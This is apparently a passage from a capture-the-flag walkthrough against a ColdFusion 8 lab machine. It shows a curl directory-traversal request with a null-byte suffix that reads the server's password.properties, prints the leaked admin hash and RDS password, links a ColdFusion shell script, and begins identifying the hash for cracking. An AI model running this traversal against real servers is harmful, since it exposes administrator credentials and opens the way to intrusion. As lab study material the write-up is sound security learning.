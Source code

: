 ```
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Exploit

Not sure where to start, but directory traversals are usually easy.  Check Google:
site:github.com coldfusion 8 directory traversal

https://github.com/goli4th-1/Scripts/blob/master/coldfusion_shell.py

```
└─# curl -s -L 10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en | grep -i password

rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
        onload="changePage();document.forms.loginform.cfadminPassword.focus();">
<form name="loginform" action="/CFIDE/administrator/enter.cfm" method="POST" onSubmit="cfadminPassword.value = hex_hmac_sha1(salt.value, hex_sha1(cfadminPassword.value));" >
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
                                                        <input name="cfadminPassword" type="Password" size="15" maxlength="100" id="admin_login" autocomplete="false" style="width:300px; padding-left:5px;">
                                <input name="requestedURL" type="hidden" value="/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en">
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```

That worked.  The hash is there as 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Next is to identify the type of hash and to crack it.

```
# hash-identifier 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 | head -n 20
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```